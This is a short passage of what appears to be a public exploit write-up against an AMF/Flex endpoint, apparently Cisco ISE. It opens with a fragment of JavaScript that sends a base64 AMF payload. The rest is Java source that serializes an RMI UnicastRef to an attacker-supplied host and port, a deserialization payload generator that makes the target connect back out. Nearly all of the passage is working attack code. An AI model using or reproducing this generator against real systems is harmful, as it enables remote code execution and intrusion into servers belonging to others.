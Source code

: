 ```javascript
xhr.send(b64toBlob(b64_payload, 'application/x-amf')); 
</script>
```

AMF Java code ([provided here](https://github.com/pedrib/PoC/tree/master/exploits/ISEpwn/ACSFlex) as a Maven project):
```java
package uk.co.agileinfosec.acsflex;

import flex.messaging.io.amf.MessageBody;
import flex.messaging.io.amf.ActionMessage;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.AmfMessageSerializer;
import java.io.*;

public class ACSFlex {
    public static void main(String[] args) {
        Object unicastRef = generateUnicastRef(args[0], Integer.parseInt(args[1]));
        // serialize object to AMF message
        try {
            byte[] amf = new byte[0];
            amf = serialize((unicastRef));
            DataOutputStream os = new DataOutputStream(new FileOutputStream(args[2]));
            os.write(amf);
            System.out.println("Done, payload written to " + args[2]);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static Object generateUnicastRef(String host, int port) {
        java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
        sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
        sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
        return new sun.rmi.server.UnicastRef(liveRef);
    }

    public static byte[] serialize(Object data) throws IOException {
        MessageBody body = new MessageBody();
        body.setData(data);

        ActionMessage message = new ActionMessage();
        message.addBody(body);

        ByteArrayOutputStream out = new ByteArrayOutputStream();

        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);

        return out.toByteArray();
    }
}
```
